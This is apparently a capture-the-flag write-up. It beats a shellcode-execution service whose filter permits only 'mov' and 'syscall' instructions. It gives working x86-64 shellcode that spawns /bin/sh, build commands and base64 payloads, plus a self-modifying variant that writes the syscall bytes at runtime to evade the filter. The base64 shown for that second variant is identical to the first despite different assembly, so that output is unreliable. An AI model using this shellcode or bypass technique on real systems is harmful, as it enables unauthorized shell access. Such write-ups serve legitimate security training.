


# Service

The [server.py](files/server.py) contains some backend that is reading a shellcode and executing it after some checks.

Connecting to the given host and port, it offers the service.



# Checks

The server is checking if the shellcode contains anything invalid. Only instructions starting with `mov` and some other instruction with a given hash is allowed.

```python
i.mnemonic.startswith("mov") or
sha256_hash(i.mnemonic) == "44b1bb13ee5a5d92ee3823110f16031c246a8f9c84c96abc3d9237de2532d18c"
```

The hash can be bruteforced by hashing all the available instructions.

```python
from hashlib import sha256
mnemonics = ["AAA", "AAD", "AAM", "AAS", "ADC", "ADCX", "ADD", "ADDPD", "ADDPS", "ADDSD", "ADDSS", "ADDSUBPD", "ADDSUBPS", "...", "SUB", "SUBPD", "SUBPS", "SUBSD", "SUBSS", "SWAPGS", "SYSCALL", "..."]

valid = "44b1bb13ee5a5d92ee3823110f16031c246a8f9c84c96abc3d9237de2532d18c"
pairs = [(m, sha256(m.encode()).hexdigest()) for m in (mnemonics + [i.lower() for i in mnemonics])] 
[p for p in pairs if p[1]==valid][0]
```

The instruction that is also allowed is `syscall`.

# Exploit

All we need is a simple shellcode that is only using `mov` and `syscall`. Example in [shellcode.asm](workdir/shellcode.asm).

```nasm
section .text
  global _start
    _start:
      mov rdx, 0x0
      mov rsi, 0x0
      mov rbx, '/bin/sh' 
      mov [rsp], rbx
      mov rdi, rsp
      mov al, 59
      syscall
```

```bash
nasm -f elf64 shellcode.asm -o shellcode.o && objcopy -O binary -j .text shellcode.o /dev/stdout | base64
```

```
ugAAAAC+AAAAAEi7L2Jpbi9zaABIiRwkSInnsDsPBQ==
```



# Flag

CQ24{Th3_l1F3's_f0aMy_5id3}

# Exploit without syscall

It is possible to write a code without `syscall`, because our shellcode is `RWE` mapped. Just write the instruction on the fly. Example in [shellcode_no_syscall.asm](workdir/shellcode_no_syscall.asm).

```nasm
section .text
  global _start
    _start:
	  mov rdx, 0x0
      mov rsi, 0x0
      mov rbx, '/bin/sh' 
      mov [rsp], rbx
      mov rdi, rsp
      mov al, 59
      mov r15, 0xCCCCCCCCCCCC050F ; syscall
      mov [rel $+7], r15
```

```bash
nasm -f elf64 shellcode_no_syscall.asm -o shellcode_no_syscall.o && objcopy -O binary -j .text shellcode_no_syscall.o /dev/stdout | base64
```

```
ugAAAAC+AAAAAEi7L2Jpbi9zaABIiRwkSInnsDsPBQ==
```


